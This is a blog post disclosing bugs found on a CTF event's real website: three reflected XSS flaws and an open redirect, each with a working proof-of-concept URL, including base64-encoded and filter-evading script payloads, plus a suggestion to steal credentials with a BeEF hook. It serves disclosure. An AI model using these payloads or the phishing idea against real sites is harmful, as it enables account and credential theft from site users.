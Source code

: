 ```yaml
---
layout: post
title: Break-in CTF multiple XSS and an open redirect
---
```


Played a really silly CTF recently and found a bunch of bugs right off the bat. Wrote an email to the organizers with that but received no reply whatsoever. The event is over so here are some of those. Needless to say, all of these could be used to steal creds/flags e.g. by dropping a link to their IRC channel with a BEEF hook: "Hey, is this a flag?!"

### XSS

There are XSS found at the following URLs:

- \[1\] http://felicity.iiit.ac.in/threads/forgot_password/?errors=
- \[2\] http://felicity.iiit.ac.in/threads/change_password/?errors=
- \[3\] http://felicity.iiit.ac.in/threads/logout.php?destination=

In case with \[1\] and \[2\], the `error` parameter takes on a base64-encoded value. The server-side handler embeds base64-decoded arbitrary parameter values into the page it sends out to be rendered.

### PoC

(will run `<script>alert(/pwned/)</script>`, feel free to click through):


    [1] http://felicity.iiit.ac.in/threads/forgot_password/?errors=PHNjcmlwdD5hbGVydCgvcHduZC8pPC9zY3JpcHQ+

    [2] http://felicity.iiit.ac.in/threads/change_passwd/?errors=PHNjcmlwdD5hbGVydCgvcHduZC8pPC9zY3JpcHQ+


In case with \[3\], the `destination` parameter is not filtered out correctly (if at all) and leads to XSS after some fuzzing. In the PoC below, some extra fuzzing is done, however it's possible to get around filtering with much less effort. The example below will render `http://%0 d%0 a` in the page body but will run `<script>alert(/pwned/)</script>`:


    [3] http://felicity.iiit.ac.in/threads/logout.php?destination=%3Chtml%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/html%3Ehttp://%0%0dd%0%0aa

**Note**: Google Chrome is smart enough to understand that there's a security issue and tries to hinder the XSS attempt:
<br>

    The XSS Auditor refused to execute a script in 'http://felicity.iiit.ac.in/threads/logout.php?destination=%3Chtml%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/html%3Ehttp://%0%0dd%0%0aa' because its source code was found within the request. The auditor was enabled as the server sent neither an 'X-XSS-Protection' nor 'Content-Security-Policy' header. logout.php:1

(However, I was still able to bypass even that after some obfuscation. Other browsers are much more prone to the issue.)


### Open redirect


    [1] http://felicity.iiit.ac.in/threads/logout.php?destination=http://google.com


actually goes to `http://google.com` if you're nice and to `3v1lspl017z.hk.ch/funny_cats.html` if not so. The `destination` parameter will send the "Location" header with the contents of `http://google.com` or any other (possibly malicious) URL.

P.S. There were other issues, like SQLi, but that seems to affect not only the CTF event website, so abstaining from that for now :/

> Read the manual if unsure, post comment(s) if unclear.
